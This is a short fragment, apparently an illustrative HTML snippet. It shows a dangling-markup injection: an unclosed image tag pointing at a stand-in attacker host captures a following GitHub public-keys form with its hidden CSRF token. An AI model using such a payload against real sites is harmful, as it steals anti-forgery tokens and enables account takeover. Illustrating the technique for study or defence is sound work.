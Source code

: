 <img src='https://some-evil-site.com/log_csrf?html=
<form action="https://github.com/account/public_keys/19023812091023">
...
<input type="hidden" name="csrf_token" value="some_csrf_token_value">
</form>